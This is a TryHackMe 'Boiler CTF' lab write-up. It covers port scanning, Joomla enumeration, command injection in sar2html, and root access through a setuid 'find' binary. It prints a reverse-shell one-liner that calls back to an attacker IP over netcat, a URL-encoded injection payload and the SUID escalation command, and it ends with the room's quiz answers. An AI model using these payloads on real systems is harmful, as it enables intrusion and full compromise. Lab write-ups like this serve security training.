


# TryHackMe(THM) - Boiler CTF - WriteUp

> Austin Lai | October 22nd, 2021

---

<!-- Description -->


[Room = TryHackMe(THM) - Boiler CTF](https://tryhackme.com/room/boilerctf2)

Difficulty: Medium

The room is completed on October 22nd, 2021

```text
Boiler CTF - Intermediate level CTF

- CTF
- Enumeration is the key !
- Basic exploit
- SSH, FTP, Webmin
```

<!-- /Description -->

## Table of Contents

<!-- TOC -->

- [TryHackMe(THM) - Boiler CTF - WriteUp](#tryhackmethm---boiler-ctf---writeup)
    - [Table of Contents](#table-of-contents)
    - [Let's Begin Here !!!](#lets-begin-here-)
    - [Task 1 - Questions #1](#task-1---questions-1)
        - [File extension after anon login](#file-extension-after-anon-login)
        - [What is on the highest port?](#what-is-on-the-highest-port)
        - [What's running on port 10000?](#whats-running-on-port-10000)
        - [Can you exploit the service running on that port? yay/nay answer](#can-you-exploit-the-service-running-on-that-port-yaynay-answer)
        - [What's CMS can you access?](#whats-cms-can-you-access)
        - [The interesting file name in the folder?](#the-interesting-file-name-in-the-folder)
    - [Task 2 - Questions #2](#task-2---questions-2)
        - [Where was the other users pass storedno extension, just the name?](#where-was-the-other-users-pass-storedno-extension-just-the-name)
        - [user.txt](#usertxt)
        - [What did you exploit to get the privileged user?](#what-did-you-exploit-to-get-the-privileged-user)
        - [root.txt](#roottxt)

<!-- /TOC -->

---

## Let's Begin Here !!!

Fire up basic rustscan (nmap):


<details><summary>Rustscan result</summary>

```text
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
🌍HACK THE PLANET🌍

[~] The config file is expected to be at "/root/.rustscan.toml"
[~] Automatically increasing ulimit value to 5000.
Open 10.10.32.200:21
Open 10.10.32.200:80
Open 10.10.32.200:10000
Open 10.10.32.200:55007
[~] Starting Script(s)
[>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")

[~] Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-22 11:23 +08
NSE: Loaded 45 scripts for scanning.
NSE: Script Pre-scanning.
NSE: Starting runlevel 1 (of 2) scan.
Initiating NSE at 11:23
Completed NSE at 11:23, 0.00s elapsed
NSE: Starting runlevel 2 (of 2) scan.
Initiating NSE at 11:23
Completed NSE at 11:23, 0.00s elapsed
Initiating Ping Scan at 11:23
Scanning 10.10.32.200 [4 ports]
Completed Ping Scan at 11:23, 0.43s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 11:23
Completed Parallel DNS resolution of 1 host. at 11:23, 1.05s elapsed
DNS resolution of 1 IPs took 1.05s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating SYN Stealth Scan at 11:23
Scanning 10.10.32.200 [4 ports]
Discovered open port 80/tcp on 10.10.32.200
Discovered open port 10000/tcp on 10.10.32.200
Discovered open port 21/tcp on 10.10.32.200
Discovered open port 55007/tcp on 10.10.32.200
Completed SYN Stealth Scan at 11:23, 0.43s elapsed (4 total ports)
Initiating Service scan at 11:23
Scanning 4 services on 10.10.32.200
Completed Service scan at 11:24, 6.74s elapsed (4 services on 1 host)
NSE: Script scanning 10.10.32.200.
NSE: Starting runlevel 1 (of 2) scan.
Initiating NSE at 11:24
Completed NSE at 11:24, 30.36s elapsed
NSE: Starting runlevel 2 (of 2) scan.
Initiating NSE at 11:24
Completed NSE at 11:24, 1.43s elapsed
Nmap scan report for 10.10.32.200
Host is up, received echo-reply ttl 60 (0.35s latency).
Scanned at 2021-10-22 11:23:53 +08 for 40s

PORT      STATE SERVICE REASON         VERSION
21/tcp    open  ftp     syn-ack ttl 60 vsftpd 3.0.3
80/tcp    open  http    syn-ack ttl 60 Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
10000/tcp open  http    syn-ack ttl 60 MiniServ 1.930 (Webmin httpd)
55007/tcp open  ssh     syn-ack ttl 60 OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 2) scan.
Initiating NSE at 11:24
Completed NSE at 11:24, 0.00s elapsed
NSE: Starting runlevel 2 (of 2) scan.
Initiating NSE at 11:24
Completed NSE at 11:24, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 40.87 seconds
           Raw packets sent: 8 (328B) | Rcvd: 5 (204B)
```

</details>

Enumerating FTP as rustscan result show port 21 open:


From the FTP we saw `.info.txt`, checking the content shown in below:


From the content, it's look like rot13, decoding using dcode.fr and result shown as below:


Nothing useful from FTP.

Next, we fire up gobuster directory listing scan for 10.10.32.200:


From gobuster directory listing scan result, there is **joomla**.

There are multiple joomla vulnerabilities and exploit, we decided to check on it, however, found nothing.

Joomla main page:


As we found nothing from joomla, based on the information from FTP.

We decided to further enumerate joomla using gobuster directory listing scan, to scan sub-directories of joomla.


Checking each of the result, found nothing useful except for ` http://10.10.32.200/joomla/_test `


The `_test` directory show an interesting application which is `sar2html`

Then, we perform a quick check if any vulnerability or exploit can be found using `searchsploit`.

Below is the result from `searchsploit`


From searchsploit result, it show `sar2html` does have a Remote Code Execution vulnerability.

Checking the link to exploit-db for detail information as shown below:



Exploit-db show `sar2html` is an vulnerable application with Remote Code Execution exploit available.

Example of the payload showing as below:

```
In web application you will see index.php?plot url extension.

http://<ipaddr>/index.php?plot=;<command-here> will execute 
the command you entered.

After command injection press "select # host" then your command's  output will appear bottom side of the scroll screen.
```

Basically, from the joomla URL append `/index.php?plot=;<command-here>` will allow us to execute command in the system and output to us from `select # host` section of `sar2html`

In this case, let's modify payload to suit our environment as below:

```
index.php?plot=;ls -l
```

Entering the payload along with URL as shown below:

```
http://10.10.32.200/joomla/_test/index.php?plot=;ls -l
```

**voila !** We are able to execute command !


Since we have command execution ability, we can spawn a reverse shell using payload below:

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.4.2.85 18888 >/tmp/f
```

As this is part of URL; to avoid bad interpretation of space or special character, we use URL encode to encode our payload


Entering the encoded payload along with URL as shown below:

```
http://10.10.32.200/joomla/_test/index.php?plot=;rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fsh%20-i%202%3E%261%7Cnc%2010.0.0.1%204242%20%3E%2Ftmp%2Ff
```

The page is loading:


However, on our netcat listener; we received callback.

With that, we stabilized the shell using command below:

```
$(which python || which python2 || which python3) -c 'import pty;pty.spawn("/bin/bash")'

export TERM=xterm
```

And here we have stabilized reverse shell access:


Next, we start enumerate the system and found `log.txt` in the current directory.

Checking the content of `log.txt`, we found an user credential.


With the credential found we can ssh into the system however, in our case, we switch to the user and start enumerate using the user.

From the user home directory, we found a backup script called `backup.sh`



Below is the content of `backup.sh` that contain another user credential.


This time, we use `connect.sh` script that leveraging `sshpass` and `ssh` to connect to the system with the user we just found.

Script can be found [here](connect-script-v0.1.sh)


In the user home directory, there is a file called `.secret`


As we have not yet root the system, now we need to find a way to escalate our current privilege to root.

We started off to find is there any binary with setuid bit and below is what we found.


We have notice that setuid bit is set for the `find` binary.

Checking in [GTFOBins](https://gtfobins.github.io/) - a curated list of Unix binaries that can be used to bypass local security restrictions in misconfigured systems.


`find` binary with setuid bit can be used to bypass local security restrictions with the command below:

```
find . -exec /bin/sh -p \; -quit
```

And here with our root.txt


Hope you enjoy !


<br /><br />

## Task 1 - Questions #1

Intermediate level CTF. Just enumerate, you'll get there.

### File extension after anon login

```
txt
```

### What is on the highest port?

```
ssh
```

### What's running on port 10000?

```
webmin
```

### Can you exploit the service running on that port? (yay/nay answer)

```
nay
```

### What's CMS can you access?

```
joomla
```

### The interesting file name in the folder?

```
log.txt
```

## Task 2 - Questions #2

You can complete this with manual enumeration, but do it as you wish

### Where was the other users pass stored(no extension, just the name)?

backup

### user.txt

```
REDACTED
```

### What did you exploit to get the privileged user?

```
find
```

### root.txt

```
REDACTED
```

<br />

---

> Do let me know any command or step can be improve or you have any question you can contact me via THM message or write down comment below or via FB

